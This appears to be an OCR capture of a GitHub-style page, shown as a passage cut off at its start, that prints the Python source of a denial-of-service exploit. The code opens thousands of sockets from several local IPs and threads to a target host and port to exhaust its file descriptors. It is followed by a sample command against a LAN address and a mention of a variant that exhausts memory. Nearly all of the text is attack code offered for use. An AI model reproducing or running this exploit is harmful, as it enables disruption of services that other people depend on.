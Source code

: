 ```
    for i in range(0xFFFF - 2000):
        try:
            cnxs.append(__import__("socket").socket())
            cnxs[counter].bind((IP, 0))
            cnxs[counter].connect((H,P))
            cnxs[counter].send(b"A"*(1024))
            #print(f"IP_BUSD={IP},OPEN_CNX={counter},FAILS={fails}\t\t", end="\r")
            counter=counter+1
        except:
            fails = fails+1
            pass
    print()

def argv_parser():
    host, port, interface, threads, count = None, None, None, 1, 20

    args = __import__("sys").argv
    for i in range(1,len(args)):
        if args[i] == "-i":
            interface = args[i+1]
        elif args[i] == "-h":
            host = args[i+1]
        elif args[i] == "-p":
            port = args[i+1]
        elif args[i] == "-t":
            threads = args[i+1]
        elif args[i] == "-c":
            count = args[i+1]
        else:
            pass
            #print(f"[WARN] {args[i]} unkown param")
    return host,int(port),interface,int(threads),int(count)

HH,PP,II,TT,CC = argv_parser()
H = HH if HH is not None else H
P = PP if PP is not None else P
ips = _init(II, CC) # autoselect if None
tp = []

print(f"opts:h,p,i,t,c={HH,PP,II,TT,CC}")

#for i in range(TT):
i = 0
while i != TT:
    for _ip in ips:
        tp.append(new_cnx(target=openFDS, args=(_ip,)))
        tp[i].start()
        i=i+1

for i in range((TT*len(ips))):
    tp[i].join()

```
executing the exploit : 
```
python3 exploit.py -h 192.168.11.106 -p 4000 -i eth0 -c 8 -t 4
```
-----------------------------------------------------------------
there is a more customized exploit with doc that can be used either for fd resource exhaust or OOM :
```
def setup_interface(interface=["wlan0", "eth0"], COUNT=20):
    _interface = ""
```